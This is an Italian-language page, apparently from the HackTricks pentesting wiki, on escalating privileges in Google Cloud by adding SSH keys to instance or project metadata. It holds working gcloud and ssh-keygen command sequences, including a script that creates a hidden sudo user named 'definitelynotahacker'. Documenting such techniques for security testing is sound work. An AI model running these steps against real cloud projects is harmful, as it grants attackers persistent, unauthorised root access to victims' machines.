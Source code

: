 # GCP - Aggiungi Metadati SSH Personalizzati

{{#include ../../../../banners/hacktricks-training.md}}

## Modifica dei metadati <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modifica dei metadati su un'istanza potrebbe portare a **significativi rischi per la sicurezza se un attaccante ottiene i permessi necessari**.

### **Incorporazione di Chiavi SSH nei Metadati Personalizzati**

Su GCP, **i sistemi Linux** spesso eseguono script dall'[Ambiente Ospite Linux Python per Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente critico di questo è il [daemon degli account](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), progettato per **controllare regolarmente** l'endpoint dei metadati dell'istanza per **aggiornamenti alle chiavi pubbliche SSH autorizzate**.

Pertanto, se un attaccante può modificare i metadati personalizzati, potrebbe far sì che il daemon trovi una nuova chiave pubblica, che verrà elaborata e **integrata nel sistema locale**. La chiave verrà aggiunta al file `~/.ssh/authorized_keys` di un **utente esistente o potenzialmente creando un nuovo utente con privilegi `sudo`**, a seconda del formato della chiave. E l'attaccante sarà in grado di compromettere l'host.

### **Aggiungi chiave SSH a un utente privilegiato esistente**

1. **Esamina le Chiavi SSH Esistenti sull'Istanze:**

- Esegui il comando per descrivere l'istanza e i suoi metadati per localizzare le chiavi SSH esistenti. La sezione rilevante nell'output sarà sotto `metadata`, specificamente la chiave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Fai attenzione al formato delle chiavi SSH: il nome utente precede la chiave, separato da un due punti.

2. **Prepara un File di Testo per i Metadati della Chiave SSH:**
- Salva i dettagli dei nomi utente e delle loro corrispondenti chiavi SSH in un file di testo chiamato `meta.txt`. Questo è essenziale per preservare le chiavi esistenti mentre ne aggiungi di nuove.
3. **Genera una Nuova Chiave SSH per l'Utente Target (`alice` in questo esempio):**

- Usa il comando `ssh-keygen` per generare una nuova chiave SSH, assicurandoti che il campo commento (`-C`) corrisponda al nome utente target.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Aggiungi la nuova chiave pubblica a `meta.txt`, mimando il formato trovato nei metadati dell'istanza.

4. **Aggiorna i Metadati della Chiave SSH dell'Istanze:**

- Applica i metadati aggiornati della chiave SSH all'istanza utilizzando il comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Accedi all'Istanze Utilizzando la Nuova Chiave SSH:**

- Connettiti all'istanza con SSH utilizzando la nuova chiave, accedendo alla shell nel contesto dell'utente target (`alice` in questo esempio).

```bash
ssh -i ./key alice@localhost
sudo id
```

### **Crea un nuovo utente privilegiato e aggiungi una chiave SSH**

Se non viene trovato alcun utente interessante, è possibile crearne uno nuovo a cui verranno dati privilegi `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chiavi SSH a livello di progetto <a href="#sshing-around" id="sshing-around"></a>

È possibile ampliare l'accesso SSH a più Macchine Virtuali (VM) in un ambiente cloud **applicando le chiavi SSH a livello di progetto**. Questo approccio consente l'accesso SSH a qualsiasi istanza all'interno del progetto che non ha esplicitamente bloccato le chiavi SSH a livello di progetto. Ecco una guida riassuntiva:

1. **Applica le chiavi SSH a livello di progetto:**

- Usa il comando `gcloud compute project-info add-metadata` per aggiungere le chiavi SSH da `meta.txt` ai metadati del progetto. Questa azione garantisce che le chiavi SSH siano riconosciute in tutte le VM del progetto, a meno che una VM non abbia abilitata l'opzione "Blocca le chiavi SSH a livello di progetto".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH nelle istanze utilizzando chiavi a livello di progetto:**
- Con le chiavi SSH a livello di progetto in atto, puoi SSH in qualsiasi istanza all'interno del progetto. Le istanze che non bloccano le chiavi a livello di progetto accetteranno la chiave SSH, concedendo accesso.
- Un metodo diretto per SSH in un'istanza è utilizzare il comando `gcloud compute ssh [INSTANCE]`. Questo comando utilizza il tuo nome utente attuale e le chiavi SSH impostate a livello di progetto per tentare l'accesso.

## Riferimenti

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
